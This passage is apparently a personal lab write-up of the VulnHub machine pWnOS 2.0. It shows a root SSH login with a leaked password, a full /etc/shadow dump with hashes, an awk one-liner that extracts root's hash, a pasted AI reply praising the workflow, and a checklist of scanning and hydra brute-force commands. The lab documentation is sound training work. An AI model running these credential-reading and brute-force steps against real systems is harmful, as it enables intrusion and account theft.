DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>www-data@web:../..$ 
```

What a surprise! The username and pass word combination 
- root
- root@ISIntS

## SSH
```bash
┌──(kali㉿kali)-[~]
└─$ ssh root@192.168.56.40                                                                     
The authenticity of host '192.168.56.40 (192.168.56.40)' can't be established.
ECDSA key fingerprint is: SHA256:EWPtTr0Xn9NMudUhcD3+AMXSigXAGS4uldZp3grLm8w
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.40' (ECDSA) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
root@192.168.56.40's password: 
Welcome to Ubuntu 11.04 (GNU/Linux 2.6.38-8-server x86_64)

 * Documentation:  http://www.ubuntu.com/server/doc

  System information as of Wed Dec 31 17:32:37 EST 2025

  System load:  0.0               Processes:           81
  Usage of /:   2.9% of 38.64GB   Users logged in:     0
  Memory usage: 22%               IP address for eth0: 192.168.56.40
  Swap usage:   0%

  Graph this data and manage this system at https://landscape.canonical.com/
Last login: Sun Dec 28 10:47:17 2025
root@web:~# ls -al
total 32
drwx------  4 root root 4096 2011-05-09 19:25 .
drwxr-xr-x 21 root root 4096 2011-05-07 13:37 ..
drwx------  2 root root 4096 2011-05-07 15:12 .aptitude
-rw-r--r--  1 root root  107 2011-05-09 19:29 .bash_history
-rw-r--r--  1 root root 3106 2010-10-21 08:47 .bashrc
drwx------  2 root root 4096 2011-05-07 17:18 .cache
-rw-r--r--  1 root root    0 2011-05-09 19:24 .mysql_history
-rw-r--r--  1 root root  140 2010-10-21 08:47 .profile
-rw-------  1 root root  837 2011-05-09 19:16 .viminfo
root@web:~# 

```





### Sadly this machine does not contain any fancy flags 🚩


---
---

# BONUS

### Alright, I just completed my 15th machine from VulnHub 🥳 

*But, this one was a bit of a lower quality, it was necessary to login on the target machine in order to change the static IP address to DHCP, to get it to work properly with Target machine on VMware and Kali Linux on VirtualBox. It was an easy machine, but what I learned as something new, was that on the browser, you could click on a "More Information" button, that would give you the "Page Info", on this page on the general tab, you could see that the "generator" was using "Simple PHP Blog 0.4.0", (that info it not something you will get from tools like "Wappalyzer"). Then you simply searched that on searchsploit, then Metasploit-framework, then found root credentials for SSH in a file called "mysqli_connect.php".*

#### Respond from AI

Nice work. 15 machines in already, that is solid consistency.

The box you’re referring to is **pWnOS 2.0** on **VulnHub**, and honestly your reflection is more important than the difficulty level.

Let’s break down what you actually learned, because it is valuable.

---

## 1. Adapting Broken Lab Environments

Yes, having to log in locally to switch static IP to DHCP is bad design for a CTF. But in real environments?

That is extremely realistic.

Legacy systems
Hardcoded IPs
Misconfigured networking
VMware and VirtualBox mixing
Old Debian releases

Being able to troubleshoot networking across hypervisors is a real skill. Many juniors struggle there.

---

## 2. Manual Enumeration > Automated Tools

This is the key lesson.

You discovered:

Browser → "More Information" → Page Info → Generator
Generator: **Simple PHP Blog 0.4.0**

Most people rely on:

* Wappalyzer
* WhatWeb
* Nikto
* Nmap scripts

But metadata inside the browser exposed something automation missed.

That is real penetration testing thinking.

Always inspect:

* Page source
* Headers
* Cookies
* Page info
* JavaScript files
* Hidden form fields

Tools assist you. They do not replace you.

---

## 3. Technology Fingerprinting via OSINT

You took:

Simple PHP Blog 0.4.0
→ searchsploit
→ Metasploit
→ known exploit
→ credentials exposure
→ mysqli_connect.php
→ root SSH creds

That is clean enumeration flow.

This is how real-world exploitation often works:

1. Identify software
2. Check version
3. Look for known vulnerabilities
4. Verify manually

That workflow is exactly what employers want to see in a junior pentester.

---

## 4. Credential Reuse Pattern

The interesting part here:

Root SSH credentials stored in:
mysqli_connect.php

That teaches:

• Devs hardcode secrets
• Config files leak credentials
• Web app creds often equal system creds
• Privilege separation is often nonexistent

That pattern repeats constantly in real environments.

---

## 5. Quality of the Machine

You’re right that it feels low quality. Many early VulnHub VMs were:

* Intentionally simple
* Designed to teach one concept
* Not realistic full attack chains

But it taught you:

* Manual enumeration beats automation
* Metadata leaks matter
* Exploit-db workflow
* Config file hunting
* Credential reuse

That is still valuable.

---

## What This Says About Your Progress

At 15 machines:

You are no longer learning tools.
You are learning patterns.

That is the transition from beginner to intermediate mindset.

---

```bash
# Show all passwords hashes of the machine (needs root access of target machine)
root@web:~# cat /etc/shadow
root:$6$aO1TGdyc$XfiMyap/.QYhjIip5xxrgpO1ydlo.DQXns3fYYLt1hiH4Fp0PJP4TMoDSg3wpAFklF03dV2cUDL04YcR9bSSI/:15101:0:99999:7:::
daemon:*:15101:0:99999:7:::
bin:*:15101:0:99999:7:::
sys:*:15101:0:99999:7:::
sync:*:15101:0:99999:7:::
games:*:15101:0:99999:7:::
man:*:15101:0:99999:7:::
lp:*:15101:0:99999:7:::
mail:*:15101:0:99999:7:::
news:*:15101:0:99999:7:::
uucp:*:15101:0:99999:7:::
proxy:*:15101:0:99999:7:::
www-data:*:15101:0:99999:7:::
backup:*:15101:0:99999:7:::
list:*:15101:0:99999:7:::
irc:*:15101:0:99999:7:::
gnats:*:15101:0:99999:7:::
nobody:*:15101:0:99999:7:::
libuuid:!:15101:0:99999:7:::
syslog:*:15101:0:99999:7:::
mysql:!:15101:0:99999:7:::
sshd:*:15101:0:99999:7:::
landscape:*:15101:0:99999:7:::
dan:$6$Iu1ipXkP$F9Jdj7JNf56/UjrXgOTks3mqYO6J/ErWUtf.EWr2AT8lv6aHy3K6Ywjmd7HCUswgiEYDHMwq/aqwJToXl0ERs1:15101:0:99999:7:::

# Show only hashes of the machine root (needs root access of target machine)
root@web:~# awk -F: '/^root/{print $2}' /etc/shadow
$6$aO1TGdyc$XfiMyap/.QYhjIip5xxrgpO1ydlo.DQXns3fYYLt1hiH4Fp0PJP4TMoDSg3wpAFklF03dV2cUDL04YcR9bSSI/
```


---
---

# VulnHub Pentest Notes - [pWnOS 2.0]  
🔍 **Target IP:** `192.168.56.40`  
🖥 **OS:** Linux  
📅 **Date:** 2026-02-25  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)  
📌 [YouTube Walkthrough](https://www.youtube.com/watch?v=bMuhFVQzdRM)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

